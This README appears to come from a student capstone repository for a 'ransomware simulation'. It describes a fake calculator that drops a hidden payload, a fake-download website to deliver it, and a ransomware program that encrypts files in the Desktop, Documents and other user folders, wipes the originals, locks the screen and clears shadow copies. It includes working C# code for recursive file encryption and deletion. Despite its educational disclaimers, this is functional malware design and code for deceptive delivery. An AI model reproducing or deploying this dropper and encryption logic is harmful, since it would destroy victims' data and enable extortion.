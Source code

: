 


```markdown
# Capstone Project: Ransomware Simulation & Delivery  
**Aimery Barrault | CSCI 460 – Capstone**

---

## 🚀 Project Overview

This repository contains a ransomware simulation for controlled, educational use:

- **CalculatorApp.exe** – a benign “calculator” UI that drops and launches the real payload  
- **capstone-site/** – Next.js “fake download” website to deliver the payload  
- **payload.txt** & **base64script.py** – utilities to embed and extract the encrypted dropper  

 **Do not deploy on production systems or without explicit authorization.**

---

## ⚙️ Setting Up the Fake-Download Site

1. **Enter the site directory**  
   ```bash
   cd capstone-site
````

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Place your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

4. **Run in development**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Open [http://localhost:3000](http://localhost:3000).


---

## 🖥️ CalculatorApp (Dropper UI)

**MainWindow\_CalculatorApp.cs** – WPF application that:

* Displays a standard calculator UI.
* On a trigger (e.g. backspace), reads Base64 string, decodes the real dropper, writes it to `%USERPROFILE%\Documents\CalculatorManager.exe`, launches it, and exits.


---

## 🔒 Ransomware Simulator

**MainWindow\_Manager.cs** – WPF application that:

1. **EncryptAll()** – Recursively encrypts user files under:

   * Desktop
   * Documents
   * Pictures
   * Downloads
   * Public Documents
2. **AES-128 CBC** with a fresh IV per file (prepended to ciphertext)
3. **SecureDelete()** – Overwrites original with zeroes, then deletes
4. **Countdown Timer** – 24-hour full-screen, top-most UI lockdown
5. **Password-protected Decrypt** – PBKDF2(SHA-256) verification, max 3 attempts
6. **SelfDestruct()** – Clears shadow copies, zero-wipes key & flag, removes Run-key, then exits

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    // encrypt files in this folder
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; } // skip unreadable folder

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        // securely overwrite & delete original
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>


---

## ✅ Windows Setup & Execution

1. Copy executables & scripts to a Windows 10 VM.
2. Run `CalculatorApp.exe` to drop & launch `CalculatorManager.exe`.
3. Observe `*.aes` files in Desktop/Documents/etc.
4. Enter the correct password to decrypt.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

MIT License. See [LICENSE.md](LICENSE.md) for full terms.

```
```
